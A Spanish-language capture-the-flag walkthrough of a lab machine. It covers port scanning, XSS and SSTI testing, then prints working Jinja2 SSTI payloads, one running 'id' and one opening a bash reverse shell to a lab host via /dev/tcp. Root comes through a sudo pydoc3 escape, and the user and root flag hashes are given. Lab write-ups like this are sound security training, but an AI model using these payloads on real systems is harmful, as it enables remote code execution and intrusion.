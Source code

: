 nmap: 192.168.1.130

![image](https://github.com/user-attachments/assets/04153be9-dbfa-42ee-9f66-3fdf4d03ee92)

al entrar al puerto 80 no hay nada mas que un apache, así que ingresamos por el puerto 8089

![image](https://github.com/user-attachments/assets/a3aa1ef4-3c4b-431a-ab69-5d1d3cd2cd5e)


vemos que podemos colocar muchas cosas ahí, así que probé inyectando un XSS

![image](https://github.com/user-attachments/assets/bad02228-eb0e-4ffd-bb19-5f9b5282d3aa)

y funciona la inyección XSS 

ahora probaremos un ataque SSTI 
una explicación rápida y buena con ejemplos: https://book.hacktricks.wiki/en/pentesting-web/pocs-and-polygloths-cheatsheet/index.html?highlight=%7B%7B7*7%7D%7D#basic-tests-8

![image](https://github.com/user-attachments/assets/3e4deccc-01b6-4302-b423-94a88aa45544)

y funciona, porque nos devuelve el valor 

![image](https://github.com/user-attachments/assets/9550e161-fc82-441f-b8cd-08beb3b84dca)

de la misma pagina de explicacion encontre este comando

     {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

como se ve en el código podemos ver que que hay un 'id' o sea que al lanzarlo por el ejecutable que hay ahí nos debería mostrar usuarios y grupo. 

![image](https://github.com/user-attachments/assets/08efb840-176e-4bc5-a4a2-d857c32600f0)

al igual que whoami porque podemos ver que nos muestra el usuario caldo

![image](https://github.com/user-attachments/assets/b2d70004-c3cb-491a-991b-12f2b6479221)

ahora vamos a lanzar una reverse y colocar el puerto en escucha

lanzamos:

     {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c \'bash -i >& /dev/tcp/192.168.1.108/1234 0>&1\'').read() }}


![[reverse.png]]

y estamos dentro y también de primero nos da la flag de usuario

![[user1.png]]

al hacer un sudo -l  vemos que a nivel de sudoers podemos ejecutar el binario pydoc3 para generar documentación a partir de módulos de Python.
y en un blog chino https://cloud.tencent.com.cn/developer/information/%E5%A6%82%E4%BD%95%E6%9F%A5%E7%9C%8Blinux%E4%B8%8A%E7%9A%84ftp que se tradujo a español encontré este comando

     sudo pydoc3 -b 8888

que si lo ejecutamos nos mandara aquí

![[the hackers labs/avanzado/caldo de avecren/ejecucion1.png]]

colocamos

     !/bin/sh


nos saldremos y haremos un bash -p

![[the hackers labs/avanzado/caldo de avecren/root.png]]

y seremos root! 





f3e431cd1129e9879e482fcb2cc151e8 user
44df858281024b69291f503f8921136c root

